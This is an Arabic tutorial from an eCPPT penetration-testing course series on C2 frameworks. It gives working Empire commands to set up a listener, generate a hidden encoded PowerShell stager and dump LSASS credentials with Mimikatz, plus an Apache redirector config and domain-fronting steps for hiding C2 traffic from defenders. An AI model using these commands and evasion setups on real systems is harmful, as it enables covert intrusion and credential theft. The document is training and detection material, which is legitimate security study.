

في العمليات الهجومية المتقدمة ومحاكاة الخصوم (Adversary Emulation)، لا يعد استخدام الـ Reverse Shell التقليدي عبر Netcat أو Metasploit كافيًا أو مستدامًا في مواجهة أنظمة المراقبة الحديثة (EDR / SIEM / SOC). بمجرد إغلاق نافذة الطرفية أو إعادة تشغيل الجهاز المستهدف، تفقد السيطرة تمامًا.

هنا يأتي دور **خوادم وأطر القيادة والتحكم (Command and Control - C2 Frameworks)**. في هذا الجزء من مسار **eCPPT**، سنستكشف البنية التحتية المتقدمة لـ C2، وقواعد الأمان التشغيلي (OpSec)، وكيفية نشر وإدارة العمليات الهجومية الاحترافية باستخدام **PowerShell-Empire** وواجهتها الرسومية **Starkiller**.

---

### جدول التنقل في السلسلة (Series Navigation)

| **المقال السابق** | **المقال الحالي** | **المقال القادم** |
| :---: | :---: | :---: |
| [الجزء 6: الحركة الجانبية والقفز الشبكي (Pivoting)](/posts/ecppt-v3-part-6-lateral-movement-and-pivoting/) | **الجزء 7: خوادم القيادة والتحكم (C2 Frameworks)** | [الجزء 8: اختبار اختراق تطبيقات الويب (Web Pentesting)](/posts/ecppt-v3-part-8-web-application-penetration-testing/) |

---

## أبرز النقاط الرئيسية (Key Takeaways)

* **المصطلحات الهيكلية في أطر C2**:
  * **المستمع (Listener)**: عملية تستمع على الخادم للاتصالات الواردة عبر بروتوكولات مثل HTTP/HTTPS، DNS، أو SMB.
  * **المُهيئ (Stager)**: كود خفيف وصغير يُرسل إلى الضحية لجلب الحمولة الأكبر وتثبيتها في الذاكرة.
  * **العميل/الزرع (Agent / Implant)**: البرمجية الخبيثة النشطة داخل ذاكرة الضحية التي تستقبل الأوامر وتنفذها وتُعيد النتائج.
* **البنية التحتية متعددة الطبقات (Tiered Infrastructure)**: لا يتم كشف خادم C2 الحقيقي للإنترنت أبدًا؛ بل يتم وضع خوادم إعادة توجيه (Redirectors) تعتمد على فلاتر Apache/Nginx `mod_rewrite` أو شبكات توصيل المحتوى (CDNs) لإسقاط زيارات الباحثين الأمنيين وأنظمة الفحص التلقائي.
* **تخطي كشف الاتصال المنتظم (Beacon Jitter)**: ترسل العوامل (Agents) نبضات قلب دورية (Heartbeat / Beacon) لطلب مهام جديدة. ولمنع أنظمة كشف الشذوذ الشبكي من رصد التوقيت المنتظم (مثل الاتصال كل 60 ثانية بالضبط)، نستخدم خاصية التشتيت العشوائي (Jitter).
* **إطار عمل PowerShell-Empire و Starkiller**: بيئة هجومية متكاملة للعمليات الخفية بعد الاختراق (Post-Exploitation)، تدعم تنفيذ موديولات PowerSploit و Mimikatz في الذاكرة مباشرة دون كتابة أي ملفات على القرص الصلب (Fileless Execution).

---

## 1. تصميم البنية التحتية المحصنة لأطر C2 (Tiered C2 Infrastructure)

في العمليات الاحترافية، تُبنى البنية التحتية وفق مبدأ الفصل الصارم لحماية خادم العمليات الأساسي من الحظر والكشف:

```mermaid
flowchart TD
    subgraph Victims ["الأجهزة المخترقة (Victim Workstations)"]
        V1["محطة عمل 1 (Empire Agent)"]
        V2["محطة عمل 2 (Empire Agent)"]
    end

    subgraph Edge ["طبقة الحافة والواجهة (Edge Layer)"]
        CF["Cloudflare CDN / Workers<br/>(Domain Fronting)"]
        Redir["خادم إعادة التوجيه (Apache mod_rewrite Redirector)<br/>يفلتر الحزم حسب User-Agent و IP"]
    end

    subgraph Security ["أنظمة الدفاع والباحثين"]
        SOC["فرق الدفاع / Blue Team / VirusTotal"]
    end

    subgraph Core ["القلب الآمن (Command Core)"]
        C2Server["خادم C2 الأساسي المخفي<br/>(Empire Team Server / Starkiller)"]
    end

    V1 & V2 -->|اتصال HTTPS مشفر و Malleable Profile| CF
    CF --> Redir
    SOC -.->|زيارة غير مصرح بها أو فحص آلي| Redir
    Redir -- "حركة مرور احتيالية: إعادة توجيه 302 إلى" --> RealSite["موقع تجاري حقيقي (Legitimate Site)"]
    Redir -- "حركة مرور عميل C2 حقيقي" -->|نفق WireGuard آمن| C2Server
```

### تصفية الزيارات عبر Apache `mod_rewrite`:
يتم كتابة قواعد توجيه تسقط أي طلب لا يطابق الترويسة المحددة مسبقًا لبرمجية التجسس:

```apache
RewriteEngine On
# إذا كان الـ User-Agent يطابق عميلنا فقط، مرر الطلب لخادم C2
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/5.0\ \(Windows\ NT\ 10\.0;\ Win64;\ x64\)\ AppleWebKit/537\.36$
RewriteRule ^/api/v1/telemetry$ http://10.0.0.5:8080%{REQUEST_URI} [P]

# خلاف ذلك، أعد توجيه أي شخص آخر (مثل فاحصي الأمن) إلى صفحة ويكيبيديا
RewriteRule ^.*$ https://en.wikipedia.org/ [R=302,L]
```

---

## 2. تقنية إخفاء النطاق عبر الحواشي (Domain Fronting)

تعتمد تقنية **Domain Fronting** على استغلال ميزة في شبكات توزيع المحتوى (CDNs مثل Cloudflare أو Fastly أو AWS CloudFront):

1. في حزمة اتصال TLS (طبقة النقل)، يطلب العميل الاتصال بنطاق موثوق وعالي السمعة موجود على نفس الـ CDN (مثل `trusted-company.com` في ترويسة SNI).
2. لكن في ترويسة HTTP الداخلية (طبقة التطبيق المشفرة بالكامل)، يُحدد العميل ترويسة `Host: attacker-c2-channel.workers.dev`.
3. لا تستطيع الجدران النارية وأنظمة التفتيش عند أطراف الشبكة قراءة ترويسة HTTP المشفرة، فتسمح بالاتصال بناءً على النطاق الموثوق في SNI، بينما يقوم الـ CDN بفك التشفير وتوجيه الحزمة إلى خادم المهاجم!

---

## 3. مقارنة أطر عمل C2 الحديثة (The C2 Matrix)

| إطار العمل | لغة البرمجة | الدعم الأساسي | واجهة المستخدم | أبرز نقاط القوة |
| :--- | :--- | :--- | :--- | :--- |
| **PowerShell-Empire** | Python / PowerShell / C# | Windows / Linux | CLI + Starkiller (Web) | موديولات واسعة لما بعد الاختراق والدليل النشط |
| **Sliver C2** | Golang | Cross-Platform | CLI + Multiplayer | متعدد المنصات، تشفير مدمج، دعم بروتوكولات متعددة |
| **Mythic** | Python / Go | Cross-Platform | Web UI كاملة | دعم وكلاء متعددي اللغات وقابلية تخصيص فائقة |
| **Havoc** | C++ / Python | Windows Focused | Modern Qt GUI | محاكاة أساليب التخفي المتقدمة (Sleep Obfuscation) |
| **Metasploit** | Ruby | Universal | CLI / Armitage | المعيار الكلاسيكي ولكن يمكن كشف توقيعه بسهولة |

---

## 4. العمليات الميدانية عبر PowerShell-Empire و Starkiller

يعد **PowerShell-Empire** الخيار الأساسي المعتمد في اختبارات eCPPT لما يوفره من تكامل هائل مع بيئة ويندوز دون الحاجة لرفع أدوات إضافية على القرص.



### الأوامر التكتيكية لتشغيل Empire و Starkiller:

```bash
# 1. تثبيت وتشغيل خادم Empire
sudo powershell-empire server

# 2. في نافذة أخرى: تشغيل العميل النصي أو واجهة Starkiller
powershell-empire client
# أو تشغيل Starkiller عبر المتصفح: https://127.0.0.1:1337
```

### إعداد المستمع (Listener Configuration):
```text
(Empire) > uselistener http
(Empire: listeners/http) > set Name http_external
(Empire: listeners/http) > set Host http://10.10.14.5:8080
(Empire: listeners/http) > set Port 8080
(Empire: listeners/http) > set DefaultDelay 5
(Empire: listeners/http) > set DefaultJitter 0.2
(Empire: listeners/http) > execute
[+] Listener successfully started!
```

### إنشاء الـ Stager وتجاوز كشف الذاكرة:
```text
(Empire) > usestager multi/launcher
(Empire: stagers/multi/launcher) > set Listener http_external
(Empire: stagers/multi/launcher) > set Language powershell
(Empire: stagers/multi/launcher) > set OutFile /tmp/launcher.bat
(Empire: stagers/multi/launcher) > execute
```

يقوم هذا الأمر بتوليد أمر سطر واحد (One-Liner) مشفر بـ Base64 يقوم بتشغيل باورشيل مع خيارات `-NoP -NonI -W Hidden -Enc ...` التي تتصل بالمستمع وتحمل موديول العميل في ذاكرة العملية دون لمس القرص الصلب نهائيًا.

### التفاعل مع العميل وتشغيل موديولات ما بعد الاختراق:
بمجرد اتصال الضحية، يظهر تنبيه `[+] Initial agent ABC12345 from 10.10.10.50 now active`:

```text
(Empire) > interact ABC12345
(Empire: ABC12345) > sysinfo
(Empire: ABC12345) > sleep 5 0.2

# تشغيل موديول فحص تصعيد الصلاحيات (PowerUp)
(Empire: ABC12345) > usemodule powershell/privesc/powerup/allchecks
(Empire: powershell/privesc/powerup/allchecks) > execute

# تفريغ كلمات المرور والهاشات من ذاكرة LSASS عبر Mimikatz
(Empire: ABC12345) > usemodule powershell/credentials/mimikatz/logonpasswords
(Empire: powershell/credentials/mimikatz/logonpasswords) > execute
```

---

## 5. كشف ورصد اتصالات C2 (Blue Team Detection & Hunting)

كجزء من تدريب eCPPT، يجب أن يفهم مختبر الاختراق كيف يرصد المدافعون هذه الهجمات لتحسين أمان عملياته الهجومية:

1. **بصمة TLS عبر خوارزميات JA3 / JA3S**: تقوم برمجيات C2 بإجراء مصافحات TLS بخصائص محددة من أطقم التشفير (Cipher Suites)، مما يسمح بحظرها عبر بصمة JA3 حتى لو تغير عنوان الـ IP واسم النطاق.
2. **التحليل الإحصائي لـ Beacon Jitter**: تبحث أنظمة مراقبة تدفق الحزم (NetFlow / Zeek) عن اتصالات متكررة بنفس حجم البيانات ونفس الفارق الزمني التقريبي للكشف عن خوادم C2.
3. **مراقبة طول استعلامات DNS**: في حال استخدام DNS Tunneling لنقل الأوامر، تظهر استعلامات TXT أو A بنطاقات فرعية طويلة جدًا ومحملة بترميز Base64/Hex، وهو ما يمكن رصده فورًا عبر تحليل سجلات استعلامات خوادم الأسماء.

---

## المراجع والمصادر الخارجية (References & Further Reading)

1. **The C2 Matrix Project** by Jorge Orchilles: موسوعة ومقارنة كافة أطر C2 العالمية: [https://www.thec2matrix.com/](https://www.thec2matrix.com/)
2. **BC-Security PowerShell-Empire & Starkiller Documentation**: [https://bc-security.gitbook.io/empire-wiki/](https://bc-security.gitbook.io/empire-wiki/)
3. **BishopFox Sliver C2 Framework**: [https://github.com/BishopFox/sliver](https://github.com/BishopFox/sliver)
4. **Malleable C2 Profiles Reference Guide**.
5. **MITRE ATT&CK Matrix**:
   * Technique T1071: Application Layer Protocol (Web, DNS)
   * Technique T1132: Data Encoding
   * Technique T1090.004: Domain Fronting

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
